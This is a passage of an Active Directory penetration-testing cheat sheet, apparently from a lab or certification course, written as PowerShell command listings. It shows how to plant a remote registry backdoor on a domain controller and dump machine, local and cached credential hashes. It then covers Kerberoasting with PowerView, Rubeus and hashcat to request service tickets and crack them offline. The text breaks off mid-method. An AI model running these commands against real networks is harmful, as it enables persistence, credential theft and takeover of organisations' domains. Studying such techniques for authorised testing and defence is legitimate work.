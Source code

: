     ```powershell
    Add-RemoteRegBackdoor -ComputerName dcorp-dc -user orangesecurity\user01
    Get-RemoteMachineAccountHash -Computer dcorp-dc -verbose
    Get-RemoteLocalAccountHash -Computer dcorp-dc -verbose
    Get-RemoteCachedCredential -Computer dcorp-dc -verbose
    
    ```
    

# Domain Privilege Escalation

**Kerberosting**

- Identify the user/service accounts vulnerable to kerberosting attack
    
    ```powershell
    Get-NetUser -spn | select cn, samaccountname, serviceprincipalname
    
    ```
    
- Method 1: Fetch TGS of the vulnerable account (SPN name should match extactly as in the user attribute)
    
    ```powershell
    .\Rubeus.exe kerberoast /spn:"MSSQLSvc/sqlserver.organicsecurity.local:1433" /user:dcorp\sqladmin /domain:organicsecurity.local /dc:dc.organicsecurity.local  format:hashcat /outfile:mssqlsvc_tgs.hash
    
    Get-DomainSPNTicket -SPN "MSSQLSvc/dcorp-mgmt.organicsecurity.local" -OutputFormat Hashcat
    
    ```
    
- Crack the kerberost hash using Hashcat utility
    
    ```powershell
    hashcat.exe -a 0 -m 13100 sql_kerb.txt 500-worst-passwords.txt
    
    ```
    
- Method 2: Extract TGS from memory and crack it using tgsrepcrack
    
    ```powershell
	# Find the user account used as a service account:
	Get-NetUser –SPN
	
	# We request the TGS aka service ticket :
	Request-SPNTicket
	
    Get-NetUser -SPN | Request-SPNTicket
	
	# Check the tickets in memory
	## List Kerberos services available

    klist
	